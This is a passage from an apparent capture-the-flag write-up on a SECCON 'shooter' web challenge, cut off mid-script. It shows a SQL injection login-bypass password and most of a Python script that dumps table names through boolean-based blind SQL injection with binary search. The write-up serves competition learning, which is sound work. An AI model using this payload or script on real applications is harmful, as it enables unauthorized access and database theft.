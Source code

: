 We suspected that it's vulnerable to SQL injection. We continued to fuzz and finally can login with password `'))) or 1-- -`! Here we can see last 20 scores.

![scores](shooter_scores.png)

But other than that, nothing was interesting. We decided to dump database tables using boolean-based SQL injection with this script. We also used binary search to speed up the injection.

```python
import requests
import re
import string

def check(s):
    sess = requests.Session()
    r = sess.get("http://staging.shooter.pwn.seccon.jp/admin/sessions/new")
    auth_token = re.findall(r'name="authenticity_token" value="(.+?)"', r.text)[0]
    data = {
        "login_id": "admin",
        "authenticity_token": auth_token,
        "password": "')))||(select case when ({}) then 1 else 0 end)#".format(s)
    }
    r = sess.post("http://staging.shooter.pwn.seccon.jp/admin/sessions", data=data)
    if not r.ok:
        return False
    r = sess.get("http://staging.shooter.pwn.seccon.jp/admin/users", allow_redirects=False)
    return r.status_code == 200

def dump_tables():
    tables = ""
    while 1:
        lo = 0
        hi = 255
        while lo <= hi:
            mid = (lo+hi)//2
            s = "select ascii(substr((select group_concat(table_name) from information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'),{},1)) > {}"
            s = s.format(len(tables)+1,mid)
            if check(s):
                lo = mid+1
            else:
                hi = mid-1
        if lo == 0:
```